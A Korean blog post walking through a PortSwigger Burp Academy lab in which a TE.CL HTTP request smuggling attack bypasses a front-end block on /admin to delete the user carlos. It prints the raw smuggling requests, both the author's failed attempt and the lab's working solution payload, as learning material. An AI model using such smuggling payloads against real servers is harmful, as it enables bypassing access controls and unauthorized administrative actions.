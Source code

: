 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-17 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: PRACTITIONER (보통)

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 백엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 프론트엔드서버는 관리자가 아닌경우 `/admin`에 접근하지 못하게 하는 접근 제어를 실시중이다.
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 관리자 패널(`/admin`)에 접근해 carlos 유저를 삭제하면 된다. 

```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
```

# 풀이 
1. 일단 스머글링되는 기본형을 확인한다. TE.CL이다. 응답을 보면 스머글링이 가능해보이는 것을 알 수 있다. 

![스머글링 가능여부 확인](/images/burp-academy-hrs-7-2.png)


2. 스머글링할 요청(`/admin`)도 정상동작여부를 확인해둔다. 

![스머글링용 요청의 정상 동작 확인](/images/burp-academy-hrs-7-3.png)


3. 그러나 시도해보면 왜인지 400응답이 자꾸 회신된다. 어디가 잘못된 것일까? 

```http
POST / HTTP/1.1
Host: 0a2700550324837e8371aab800f70000.web-security-academy.net
Cookie: session=ojFinuFtlHO5SJpmG8mqCJFSI9a1RNUX
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 5

a=1
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
0


```

![400응답](/images/burp-academy-hrs-7-1.png)

2. 잘 모르겠으므로 답을 본다. 

다음과 같은 해답이 실려있다. 놀랍게도 페이로드 부분의 값이 `60`일 때는 제대로 동작(스머글링 성공)했다. 페이로드 값에 따라 동작이 달라지는 것 같다. 이건 문제가 잘못되었다고 봐야할 것 같다. 

그리고 이유는 모르겠지만 Content-Length의 값도 정확히 10일때는 제대로 동작하지 않았다. 10보다 큰 값일 때는 제대로 동작했다. 

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![admin 패널접근 요청 스머글링 성공](/images/burp-academy-hrs-7-4.png)

3. Host: localhost 헤더를 추가해서 보낸다.  이번에도 해답에 적혀진 것 처럼 페이로드 부분의 값이 71일 때 성공했다...다른 값을 바꾸면 Invalid Request 응답이 돌아온다.😡

![admin 패널접근 성공](/images/burp-academy-hrs-7-5.png)

4. carlos유저를 삭제하는 요청을 보낸다. 성공하면 302응답이 회신되고 문제가 풀렸다는 메세지가 표시된다. 

![carlos유저 삭제](/images/burp-academy-hrs-7-6.png)

![풀이 성공](/images/burp-academy-hrs-7-success.png)

# 감상
문제를 푸는 접근방법은 맞았다. 문제 서버가 응답을 잘 해줬으면 풀었을 것이다. 